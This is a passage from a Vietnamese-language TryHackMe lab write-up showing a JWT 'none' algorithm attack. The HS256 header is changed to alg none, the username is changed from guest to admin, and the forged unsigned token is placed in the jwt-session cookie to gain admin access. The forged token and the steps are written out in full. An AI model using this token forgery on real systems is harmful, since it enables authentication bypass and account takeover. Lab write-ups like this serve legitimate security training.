 ![img](https://github.com/DucThinh47/TryHackMe/blob/main/Web_Fundamental/Web_Hacking_Fundamentals/images/image51.png?raw=true)

=> 

    {"typ":"JWT","alg":"HS256"}.
    {"username":"guest","exp":1736271311}.

Sửa thành: 

    {"typ":"JWT","alg":"none"}.
    {"username":"admin","exp":1736271311}.

Mã hóa lại, tương đương với jwt: 

    eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzM2MjcxMzExfQ==.

Sửa cookie ***jwt-session** và refresh web: 

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Web_Fundamental/Web_Hacking_Fundamentals/images/image52.png?raw=true)
